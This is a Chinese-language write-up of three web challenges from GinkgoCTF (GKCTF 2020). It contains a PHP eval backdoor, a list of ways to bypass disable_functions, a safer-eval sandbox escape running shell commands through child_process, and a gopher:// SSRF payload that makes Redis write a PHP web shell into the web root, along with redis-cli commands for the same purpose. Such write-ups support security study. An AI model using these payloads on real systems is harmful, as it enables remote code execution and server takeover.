 # GinkgoCTF

#### CheckIN

```php
<title>Check_In</title>
<?php
highlight_file(__FILE__);
class ClassName
{
  public $code = null;
  public $decode = null;
  function __construct()
  {
    $this->code = @$this->x()['Ginkgo'];
    $this->decode = @base64_decode( $this->code );
    @Eval($this->decode);
  }
 
  public function x()
  {
    return $_REQUEST;
  }
}
 
new ClassName();
```

- 第一种，攻击后端组件，寻找存在命令注入的、web 应用常用的后端组件，如，ImageMagick 的魔图漏洞、bash 的破壳漏洞；
- 第二种，寻找未禁用的漏网函数，常见的执行命令的函数有 system()、exec()、shell_exec()、passthru()，偏僻的 popen()、proc_open()、pcntl_exec()，逐一尝试，或许有漏网之鱼；
- 第三种，mod_cgi 模式，尝试修改 `.htaccess`，调整请求访问路由，绕过 php.ini 中的任何限制；
- 第四种，利用环境变量 LD_PRELOAD 劫持系统函数，让外部程序加载恶意 *.so，达到执行系统命令的效果。

绕过disable_functions:https://www.cnblogs.com/hookjoy/p/10167315.html

include('/tmp/exp.php');

#### EzNode

```js
const express = require('express');
const bodyParser = require('body-parser');
 
const saferEval = require('safer-eval'); // 2019.7/WORKER1 找到一个很棒的库
 
const fs = require('fs');
 
const app = express();
 
 
app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());
 
// 2020.1/WORKER2 老板说为了后期方便优化
app.use((req, res, next) => {
  if (req.path === '/eval') {//如果请求路径是/eval，就执行
    let delay = 60 * 1000;//定义一个变量delay
    console.log(delay);
    if (Number.isInteger(parseInt(req.query.delay))) {//如果请求参数delay是整数，就把传入的和之前定义取最大值复制给delay
      delay = Math.max(delay, parseInt(req.query.delay));
    }
    const t = setTimeout(() => next(), delay);//设置超时，如果超时就进入下一个路由
    // 2020.1/WORKER3 老板说让我优化一下速度，我就直接这样写了，其他人写了啥关我p事
    setTimeout(() => {
      clearTimeout(t);
      console.log('timeout');
      try {
        res.send('Timeout!');
      } catch (e) {
 
      }
    }, 1000);//超时一秒就就执行timeout
  } else {
    next();
  }
});
 
app.post('/eval', function (req, res) {
  let response = '';
  if (req.body.e) {
    try {
      response = saferEval(req.body.e);//可执行恶意代码
    } catch (e) {
      response = 'Wrong Wrong Wrong!!!!';
    }
  }
  res.send(String(response));
});
 
// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function (req, res) {
  res.set('Content-Type', 'text/javascript;charset=utf-8');
  res.send(fs.readFileSync('./index.js'));
});
 
// 2019.12/WORKER3 为了方便我自己查看版本，加上这个接口
app.get('/version', function (req, res) {
  res.set('Content-Type', 'text/json;charset=utf-8');
  res.send(fs.readFileSync('./package.json'));
});
 
app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  res.send(fs.readFileSync('./index.html'))
})
 
app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

settimeout函数的漏洞：

![](GinkgoCTF.assets/GKCTF2020_EZ三剑客-EzNode-1024x570.png)

``Nodejs``沙箱逃逸，原型链污染:https://xz.aliyun.com/t/7842

poc:

```js
const saferEval = require("./src/index");

const theFunction = function () {
    const process = clearImmediate.constructor("return process;")();
    return process.mainModule.require("child_process").execSync("whoami").toString()
};
const untrusted = `(${theFunction})()`;

console.log(saferEval(untrusted));
```



?delay=2147483648

e=clearImmediate.constructor("return process;")().mainModule.require("child_process").execSync("cat /flag").toString()

#### EzWeb:

file:/var/www/html/index.php

![](GinkgoCTF.assets/image-20200719164317897.png)

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    echo curl_exec($ch);
    curl_close($ch);
}

if(isset($_GET['submit'])){
    $url = $_GET['url'];
//echo $url."\n";
    if(preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match))
{
//var_dump($match);
    die('别这样');
}
curl($url);
}
if(isset($_GET['secret'])){
system('ifconfig');
}
?>
```

利用burp爆破c段

gopher://173.169.113.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

173.169.113.11/shell.php?cmd=cat%20/flag

redis:https://xz.aliyun.com/t/1800

```redis
redis-cli -h 127.0.0.1 flushall
redis-cli -h 127.0.0.1 config set dir /var/www
redis-cli -h 127.0.0.1 config set dbfilename shell.php
redis-cli -h 127.0.0.1 set webshell "<?php phpinfo();?>"
redis-cli -h 127.0.0.1 save
```

